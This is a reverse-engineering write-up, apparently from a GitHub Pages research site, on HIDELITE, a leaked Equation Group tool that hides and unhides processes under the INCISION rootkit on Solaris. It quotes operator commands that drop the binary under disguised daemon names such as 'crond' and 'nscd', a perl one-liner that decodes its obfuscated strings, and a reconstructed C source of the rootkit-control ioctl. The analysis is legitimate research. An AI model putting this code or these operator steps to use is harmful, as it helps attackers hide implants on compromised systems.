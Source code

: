 ### [Home](https://CybernetiX-S3C.github.io)   [Main](https://CybernetiX-S3C.github.io/main)

[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# DITTELIGHT / DITTLELITE / HIDELITE

This tool can be used to unhide processes that were hidden using the INCISION rootkit. A noteable use of this tool is to unhide processes such that Oracle databases can be queried from the (previously hidden) process. The tool can also hide the process again.

In [the Oracle opscript](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/etc/oracle/opscript):
```
#########################################################################
# This is required for unhiding our processes on an INCISION box.	#
# Oracle requires that it see our processes when we query the database. #
#########################################################################
-put /current/up/hidelite.solaris.sparc $TMPDIR/nscd
```

The [HIDELITE user tool](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/doc/user.tool.dittlelight_hidelite.COMMON) provides some usage examples:
```
-put /current/bin/hidelite.sparc crond

### run hidelite to unhide the callback window:
./crond -u -p NOPEN_CALLBACK_WINDOW_PID 

...

### To hide again
./crond -h -p NOPENPID
```

Hidelite needs to run in a window that is a direct child of PID 1. ([Source](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1181-L1182))


## Reverse Engineering HIDELITE

Since my SPARC assembly was non-existent before starting this reverse engineering quest, it was a fun and small binary to reverse. There might be some mistakes in the analysis and C code though. (Always check the disassembly yourself)

Interesting to note is that it uses the same kind of string obfuscation as [the PORK traffic](../implants/pork.md) over the wire does, only the value being multiplied with, is different (`0x1d`).

You can quickly dump the hidden strings used by HIDELITE using this one-liner:
```
$ cat hidelite.solaris | perl -nle 'print join "", map{ chr((ord()*29) & 0xff) } split //' | strings
S<T6
6YA<
`W @ZW 
jk (0k 
0 \#
jk (0k 
@n`t
8jk (0k 
/bin/sh
p:hu
%s invalid address
post: %s
ioctl error
exec failed: %s
post: %s
return code = %d
usage error
PS1=hidden: 
/proc/%05d
YYqv$
```

According to [the SICKLESTAR notes](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1180) the HIDELITE binary should contain INCISION keys. I was unable to find anything that looks like it (3 random looking 32-bit integers) but it could be the 64 bytes that I called "dunno" in my C code (that's the only place it would fit).

(Warning: People have reported sudden loss of eyesight when looking at the code. Proceed with caution.)
```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>

#include<sys/ioctl.h>
#include<string.h>
#include<unistd.h>
#include<fcntl.h>

/* In the original code it's not array but just loose strings */
uint8_t encrypted_strings[][50] = {
	"\xbb\x4a\xbd\xc6\xbb\xcf\x88", /* /bin/sh */
	"\x30\x02\x88\x39", /* p:hu */
	"\xa9\xcf\xa0\xbd\xc6\x6e\x15\x5c\xbd\xb4\xa0\x15\xb4\xb4\x9a\xe9\xcf\xcf\x12", /* %s invalid address\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\xbd\xfb\x7f\x04\x5c\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* ioctl error\n */
	"\xe9\xd8\xe9\x7f\xa0\x1e\x15\xbd\x5c\xe9\xb4\x02\xa0\xa9\xcf\x12", /* exec failed: %s\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\x9a\xe9\x04\x39\x9a\xc6\xa0\x7f\xfb\xb4\xe9\xa0\xa1\xa0\xa9\xb4\x12", /* return code = %d\n */
	"\x39\xcf\x15\x53\xe9\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* usage error\n */
	"\x90\x2f\x25\xa1\x88\xbd\xb4\xb4\xe9\xc6\x02\xa0", /* PS1=hidden: */
	"\xbb\x30\x9a\xfb\x7f\xbb\xa9\xf0\xf9\xb4" /* /proc/%05d */
};

void decrypt_str(uint8_t* str, uint32_t key);
uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch);

int main(int argc, char** argv) {
	uint32_t bitmask, fp_m18h, unhide;
	uint32_t pid = bitmask = fp_m18h = unhide = 0;

	if(argc < 2) {
		decrypt_str(encrypted_strings[8], 0x1d);
		fprintf(stderr, encrypted_strings[8]);
		exit(1);
	}

	decrypt_str(encrypted_strings[1], 0x1d);
	int32_t c;
	while((c = getopt(argc, argv, encrypted_strings[1])) != -1) {
		switch(c) {
			case 'h':
				bitmask = bitmask | 0x40;
				break;
			case 'u':
				bitmask = bitmask | 0x80;
				unhide = 1;
				break;
			case 'p':
				pid = atoi(optarg);
				break;
			case 'r':
				bitmask = bitmask | 8;
				break;
		}
	}

	// 0x10c10
	bitmask = (bitmask & -3) | 4;
	uint32_t post_return_value = post(pid, bitmask, fp_m18h);
	if(post_return_value != 0) {
		if(post_return_value <= 0) { // 0x10c9c
			decrypt_str(encrypted_strings[4], 0x1d);
			fprintf(stderr, encrypted_strings[4]);
		} else { // 0x10c5c
			decrypt_str(encrypted_strings[3], 0x1d);
			fprintf(stdout, encrypted_strings[3], strerror(post_return_value));
		}
		exit(post_return_value);
	}
}

uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch) {
	struct something {
		uint32_t i; // fp_m8ch; 
		uint32_t bitmask; // fp_m88h
		uint32_t pid; // fp_m84h
		uint32_t unknown; // fp_m80h
		uint32_t thirdarg; // fp_m7ch
		char buf[0x18]; // see bzero call
		char buf2[0x40]; // see bcopy
		uint32_t two; // fp_m20c
		uint32_t minus1; // fp_m1ch
		uint32_t* bitmaskagain; // fp_m18h
		uint32_t unknown2; 
		uint32_t fourty; // fp_m10h
		uint32_t fp_mch;
		
	};

	struct something huh;
	huh.i = 0;
	bzero(&huh.buf2, 0x54);
	const char dunno[0x40] = "\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xfe\xf8\xa0\xff\xfe\xfe\x70\xff\xfe\xfd\xd0\xff\xfe\xfe\x70\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
	bcopy(dunno, &huh.buf2, 0x40); 
		// :> px 0x40 @ 0x21120
		// - offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
		// 0x00021120  0100 0000 0100 0000 0000 0000 0000 0000  ................
		// 0x00021130  0000 0000 0000 0000 0000 0000 0000 0000  ................
		// 0x00021140  fffe f8a0 fffe fe70 fffe fdd0 fffe fe70  .......p.......p
		// 0x00021150  0000 0000 0000 0000 0000 0000 0000 0000  ................

	huh.two = 2;
	bzero(&huh.bitmask, 0x28);
	huh.minus1 = -1;
	huh.fourty = 0x28;
	huh.bitmaskagain = &huh.bitmask; // Maybe a ptr, maybe the val, my SPARC is weak
	huh.bitmask = huh.bitmask | bitmask;
	huh.pid = pid;
	huh.thirdarg = fp_4ch;
	
	/* It doesn't seem like this is being saved? */
	huh.bitmask & 8;
	huh.bitmask & 0x40;
	huh.bitmask & 0x80;
	huh.bitmask & 0x20;
	huh.bitmask & 0x10;

	char procself[64];
	decrypt_str(encrypted_strings[10], 0x1d);
	sprintf(procself, encrypted_strings[10], getpid());
	int fd = open(procself, 0); /* fd = fp_m8h */
	if(fd == -1) {
		decrypt_str(encrypted_strings[6], 0x1d);
		fprintf(stdout, encrypted_strings[6], strerror(0x454)); // "post: %s" == 0x20c
		return -1;
	}

	return ioctl(fd, 0x1c | 0x1de, (void*) &huh); // second arg: 478
}

void decrypt_str(uint8_t* str, uint32_t key) {
	while(*str != 0) {
		*str = (*str * key) & 0xff;
		str++;
	}
}

```
